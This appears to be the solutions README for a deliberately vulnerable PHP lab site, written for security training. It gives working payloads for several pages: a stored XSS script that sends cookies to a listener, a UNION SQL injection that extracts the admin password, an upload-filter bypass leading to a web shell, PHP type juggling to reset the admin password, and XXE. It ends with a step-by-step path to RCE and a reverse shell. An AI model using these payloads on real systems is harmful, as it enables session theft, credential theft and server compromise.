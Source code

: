 
##Solutions & vulnerability locations

**Comments - comments.php**
Name and Comment field should accept something like:
```
{
'name':'name',
'comment':'<script>fetch("http://127.0.0.1:8888",{method: "post",mode: "no-cors",body:document.cookie});</script>'
}
```
Comments and names are stored on the MySQL db and automatically loaded when the page is refreshed.

With a python listener on the host machine, a script like the above should return a cookie.  Since this is not a real website, you'll have to manually log in to test it.

**Order Form - order.php**
Saves an order as an XML file. Only the webadmin account can review orders. Send some XXE here for later.

**Products Page - Products.php**
Very open to SQL injection.  Once authenticated as a base user, the attacker can get the webadmin password with something in the product search like:
```
1 UNION SELECT NULL, Username, Password FROM users WHERE Username = "webadmin"
```

**Gallery - social.php**
Reasonable file upload filter, but still weak.  This filter will catch files ending in php, but not php.jpg.  This should work:
`evil.php.jpeg`
Then, if an attacker has also grabbed the webadmin password from the products page, from the admin portal they can rename uploads and change the file to `evil.php`.

I've included a cmd.php file in the Notes folder if you want to test it.

##Admin-only Pages

**Admin - admin_page.php**
This page contains a way to list uploaded image files and rename or delete them, as well as a way to view XML order forms. Both allow for RCE and potentially a reverse shell, depending on the exploitation path.  Maliciously uploaded image files can be renamed, and XML orders can be viewed. The "recover image" functionalty doesn't let you recover images submitted by other users.  Its there in case you delete something and want it back.  XML orders files, uploaded images, and 'deleted' images are in the Resources folder path of the source code.

An image file can be accessed at the localhost:8000/resources/user_images/<evil.file> path.

**Reset Password - reset_pw.php**
PHP type juggling.  This page does not check to see if the user for which the password is being changed is the same user that is logged in.  It just sets the $username_entered variable equal to whatever $_POST['Username'] is.  It does, however, check the $new_password against the $username_entered password in the DB.  

The syntax in the logic is vulnerable:
```
if (($_POST['new_password'] == $_POST['new_password2']) && (strcmp($_POST['old_password'],$password) == 0)){
```
The first half of this section checks that the new password is entered twice, identically.  The second half compares the DB and user-supplied password to ensure that they are the same.  The `== 0` comparison is weak.  PHP evaluates empty arrays as false, which is also "equal to" zero.  Intercepting the HTTP request and changing the 'old_password' to an empty array should allow an attacker to reset the webadmin's password to whatever they like.  Something like this should work:

```
In Burp Suite or another proxy, change old_password=foobar to old_password[]=''
```

**View Orders - view_order.php**
This page renders user provided XML (in the form of an "order form") to the webadmin user.  This should be useful for leveraging XXE attacks submitted via the 'Order Form' page. Orders are automatically assigned numeric names in ascending order. 

**continue.php**
This page reflects the user name back to an authenticated user.  Untested, but likely will accept XSS or other input based attacks.  User name is committed to the DB.  No functionality to add a new user or "sign up" is included in the site currently, so it would be difficult to exploit without DB injection.

**db.php**
Hard-coded database credentials are not securely stored, and are left in the default webroot file path.

## No deliberate exploit path, but probably vulnerable anyway due to lazy development ##
- **login.php**
- **logout.php**
- **php.ini** This is just here for docker.
- **phpinfo.php** Included for fun, and can be attacked.
- **continue.php**
This page reflects the user name back to an authenticated user.  Untested, but likely will accept XSS or other input based attacks.  User name is committed to the DB.  No functionality to add a new user or "sign up" is included in the site currently, so it would be difficult to exploit without DB injection.

## Example Attack Path

**As a user**
1. Stored XSS via comments to obtain user cookie
2. Authenticate with user cookie (or just skip this step and log in as a user from the start)
3. upload a shell with a .php.jgp extension on the 'Gallery' page. Other script types may work, like sh.jpg.
4. Navigate to products page
5 SQLi products page via union select for webadmin password
OR
PHP type juggling to reset webadmin password

Alternatively, attempt an XXE injection on the "Orders page" for later use.

**As webadmin**
1. authenticate as webadmin
2. admin page is now available, although there is no button.  It is admin_page.php.
The admin_page.php site is available after logging in as "webadmin" and clicking the "click here to continue message". A new link for the admin portal should appear.
3. change shell from jpg to php extension
4. use uploaded shell for RCE at /resources/user_images/<filename.php>
5. attempt reverse shell

Alternatively, review the XXE order you placed earlier.
